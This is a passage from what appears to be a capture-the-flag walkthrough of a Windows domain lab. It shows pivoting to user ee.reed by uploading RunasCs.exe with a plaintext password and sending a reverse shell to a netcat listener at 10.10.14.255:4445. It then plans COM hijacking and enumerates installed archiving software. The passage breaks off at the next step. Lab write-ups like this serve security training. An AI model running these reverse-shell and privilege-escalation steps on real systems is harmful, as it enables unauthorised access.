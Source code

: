 ### Shell as ee.reed

Since evil-winrm didn't work directly with ee.reed, RunasCs.exe was used:

```bash
# From bb.morgan's evil-winrm session
mkdir C:\Tools
cd C:\Tools
upload RunasCs.exe

# Start listener
rlwrap nc -lvnp 4445

# Execute as ee.reed
.\RunasCs.exe ee.reed Password123. cmd.e -r 10.10.14.255:4445
```

### Analyzing the Internal PDF Document

The `internal.pdf` document found on bb.morgan's desktop contained crucial intelligence about extended privileges:

```text
Subject: Support Group - Archiving Tool Access
Date: Mon, 10 Mar 2025 14:35:18 +0100
Hey team,
As part of the new Support utilities rollout, extended access has been temporarily granted to allow
testing and troubleshooting of file archiving features across shared workstations.
```

This document revealed two critical pieces of information:
1. **Support Group members** (like ee.reed) have temporary **extended access**
2. The extended access specifically relates to **archiving tool features**

The mention of "extended access" in the context of archiving tools strongly suggested registry-level permissions or the ability to interact with system-level archiving components - a perfect setup for COM hijacking attacks.

### COM Hijacking Enumeration and Attack

With ee.reed's elevated context (Support Group member with archiving tool access), systematic COM enumeration was performed to identify hijacking opportunities.

#### Step 1: Enumerate Installed Archiving Software

First, check what archiving tools are installed on the system:

```cmd
# Check for archiving software in installed programs
wmic product get name | findstr /i "zip\|rar\|archive\|compress"

# Check services related to archiving
sc query state= all | findstr /i "7zip\|compress\|archive"
```

#### Step 2: Search for Archive-Related COM Objects
